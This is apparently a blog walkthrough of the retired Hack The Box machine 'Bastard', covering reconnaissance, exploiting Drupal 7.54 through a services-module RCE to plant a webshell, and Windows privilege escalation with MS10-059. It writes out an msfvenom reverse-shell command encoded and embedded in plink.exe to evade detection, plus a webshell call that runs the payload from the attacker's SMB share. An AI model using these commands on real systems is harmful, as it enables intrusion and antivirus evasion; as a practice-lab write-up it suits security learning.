 ```yaml
---
layout: post
title: "HTB-Bastard"
categories: HTB-Walkthrough
---
```


![bastard](/assets/img/bastard/bastard.png)

Bastard is another HTB machine from the 'retired' list, and it is'nt as bad as it sounds.

Nmap first...
`nmap -sV -Pn 10.10.10.9 |tee -a bast.txt`

```

PORT      STATE SERVICE VERSION
80/tcp    open  http    Microsoft IIS httpd 7.5
135/tcp   open  msrpc   Microsoft Windows RPC
49154/tcp open  msrpc   Microsoft Windows RPC
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

```

Immediate plan of action: Check searchsploit for IIS 7.5, and checkout the website via the browser...

`searchsploit iis 7.5`

```

---------------------------------------------------------- ----------------------------------------
 Exploit Title                                            |  Path
                                                          | (/usr/share/exploitdb/)
---------------------------------------------------------- ----------------------------------------
Microsoft IIS 6.0/7.5 (+ PHP) - Multiple Vulnerabilities  | exploits/windows/remote/19033.txt

```

This was the only exploit (besides the dos one), so I opened up the browser to see what the web-server was doing...

![bastard-frontpage](/assets/img/bastard/bastard-frontpage.png)

In the source of the frontpage I spot that the site is using Drupal version 7

```

<meta name="Generator" content="Drupal 7 (http://drupal.org)" />

```

Checking this with searchsploit yeilded more results...

`searchsploit drupal 7`

![bastard-drupal-searchsploit](/assets/img/bastard/bastard-drupal-searchsploit.png)


Not sure at this stage exactly what version Drupal 7 we have, I decide to enumerate the server's directories with gobuster.

I often run gobuster with the `-t 50` flag (threads=50), but that threw up lots of errors, so I went with the default 10, then eventually to 5, still a few errors and it was awfully slow:

`gobuster dir -u http://10.10.10.9/ -w /root/wordlists/SecLists/Discovery/Web-Content/common.txt -t 5`

While gobuster was doing its thing, I had a manual browse; `robots.txt` is always the first to try as it can provide a good jumping point for further browsing, but so often reveals nothing...

Not in this case...robots.txt is full of information...I scan the list for interesting destinations.

In the `#files` section there is `/CHANGELOG.txt`, which should be able to give us an accurate version number.


It  informs us that the exact version of drupal is
`Drupal 7.54, 2017-02-01`

Armed with this I look at the searchsploit results again, and see that the options are reduced.

I copied the `Drupal services module RCE` and the `Drupalgeddon3 RCE PoC` (not metasploit version) to my working folder and had a read.

`searchsploit -m 41564`
`searchsploit -m 44542`



############################################


![Incomming!](/assets/img/m.jpg)

<hr width="250" size="6">


I decided to have a go at the drupal services module RCE exploit; it requires modifying, I need to find the rest endpoint.

My gobuster results include ` /rest`
Browsing to the page gets the message:

`Services Endpoint "rest_endpoint" has been setup successfully.`

So I'm able to modify the exploit accordingly

![drupal-exploit](/assets/img/bastard/bastard-drupal-exploit.png)

I changed the php payload to a webshell, that's executable from the created page sh1n0bi.php.




<h4>msfvenom</h4>
I use msfvenom to craft a payload, I chose a 'known' port thats usually deemed 'safe', but is not in use, I also encrypt it with `shikata_ga_nai` and embed it into a 'safe' binary called `plink.exe`;
hopefully any defences looking for a suspicious signature will not be alerted.

```

msfvenom -p windows/shell_reverse_tcp lhost=10.10.14.16 lport=443 -f exe -e x86/shikata_ga_nai -x /usr/share/windows-binaries/plink.exe -o evil.exe

```

Rather than upload the evil.exe I can serve it to the target with Impacket's smbserver.py



First we have to run smbserver.py and share the folder containing evil.exe.

`python smbserver.py -comment 'My share' Sh1n0bi /tmp/sh1n/`

Second, set an nc listener...
`nc -nlvp 443'

Third, execute the evil payload via the created webshell.
`10.10.10.9/sh1n0bi.php?cmd=\\10.10.14.16\Sh1n0bi\evil.exe`

we get a shell...


![smbshare](/assets/img/bastard/bastard-smbshare.png)

![gotshell](/assets/img/bastard/bastard-gotshell.png)

<hr width="250" size="6">


<h3>Privilege Escalation</h3>



I check with `windows-exploit-suggester.py` 

![suggester](/assets/img/bastard/bastard-suggester.png)


I select MS10-059.exe, copy it to my /tmp/sh1n folder as chim.exe


I execute it from the target making sure I start a netcat listener first.

![chim](/assets/img/bastard/bastard-chim.png)

![rootshell](/assets/img/bastard/bastard-rootshell.png)



```

type dimitris\desktop\user.txt
baxxxxxxxxxxxxxxxxxxxxxxxxxxxxa2

```


```

c:\Users\Administrator\Desktop>type root.txt.txt
type root.txt.txt
4bxxxxxxxxxxxxxxxxxxxxxxxxxxxx7c

```

:)
